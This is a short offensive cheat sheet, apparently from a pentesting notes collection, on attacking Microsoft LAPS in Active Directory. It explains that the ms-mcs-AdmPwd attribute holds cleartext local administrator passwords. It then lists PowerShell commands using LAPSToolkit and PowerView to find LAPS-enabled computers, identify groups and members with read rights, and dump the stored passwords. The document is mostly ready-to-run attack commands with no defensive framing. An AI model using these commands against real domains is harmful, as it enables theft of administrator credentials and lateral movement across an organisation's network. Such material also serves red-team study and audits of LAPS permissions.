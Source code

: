 # Local Administrator Password Service

Contains Local Admin Password

Introduces 2 attributes into computer in the Active Directory:
- ms-mcs-AdmPwdExpirationTime -> Registers expiration time of the password
- ms-mcs-AdmPwd -> Contains cleartext password

LAPS uses `admpwd.dll` to change the local admin password, pushed into `ms-mcs-AdmPwd`

To attack LAPS, use:
- https://github.com/leoloobeek/LAPSToolkit

## Import LAPSToolKit

```powershell
Import-Module .\LAPSToolkit.ps1
```

## Enumerate Computers with LAPS Configured

```powershell
Get-LAPSComputers
```

## Find Groups with LAPS Read Permissions

```powershell
Find-LAPSDelegatedGroups
```

## Enumerate Members of groups with LAPS Read Permissions

```powershell
# Load PowerView
Import-Module .\PowerView.ps1

Get-NetGroupMember -GroupName "LAPS Password Readers"
```

```powershell
# Start powershell as administrator
# Read LAPS Password
Get-LAPSComputers

# The output shows the computer name and the LAPS password
```